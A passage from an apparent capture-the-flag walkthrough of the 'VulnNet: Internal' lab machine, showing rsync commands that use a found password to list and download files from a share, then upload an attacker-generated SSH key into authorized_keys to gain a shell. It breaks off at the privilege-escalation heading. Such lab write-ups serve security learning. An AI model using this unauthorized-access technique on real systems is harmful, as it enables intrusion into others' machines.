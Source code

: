 ![ecec4d80eecda85acae3811c9da7f2d1.png](/resources/8d2be0978a0b4c7bb56bb4117d2434f0.png)

To authenticate, we will use the [rsync](https://linux.die.net/man/1/rsync) command along with the password we found in the base64 string and list the directory:

```sh
rsync --list-only rsync://rsync-connect@vulnnet.thm/files
```

![e922f56b265481d0c3bb7366e2395877.png](/resources/d2b91d5b6fa441e4bf7284c6b70984e8.png)

```sh
rsync --list-only rsync://rsync-connect@vulnnet.thm/files/sys-internal/
```

![2742653b1da9b7ffad0101ee42b93b2c.png](/resources/df11e8b1cc3140e08481a92e9c306a47.png)

We can download the user flag using the `-avz` flags, `a` enables archive mode which preserves permissions, timestamps, symbolic links, and other attributes, `v` enables verbosity and `z` enables compression:

```sh
rsync -avz rsync://rsync-connect@vulnnet.thm/files/sys-internal/user.txt .
```

When we `cat` the file we will find the user flag:

![6e911f04a7398759dc9be5cfb33b747d.png](/resources/e2acbffd45b1495e839f2ce3c0ee140c.png)

# Initial Foothold

There is also the `.ssh` directory which doesn't contain any SSH keys. We can create our own SSH key and transfer the file to the `.ssh` directory which will allow us to connect via SSH.

We can create an SSH using the `ssh-keygen` command and confirm the settings when prompted:

```sh
ssh-keygen -t rsa -b 4096
```

Then, use `rsync` to upload our SSH key to the `.ssh` folder on the victim machine:

```sh
rsync -av id_rsa.pub rsync://rsync-connect@vulnnet.thm/files/sys-internal/.ssh/authorized_keys
```

## \[+] Port 22 - SSH

### \[-] sys-internal\@vulnnet-internal

Now we are ready to connect using the [ssh](https://linux.die.net/man/1/ssh) command:

```sh
ssh -i id_rsa sys-internal@vulnnet.thm
```

# Privilege Escalation
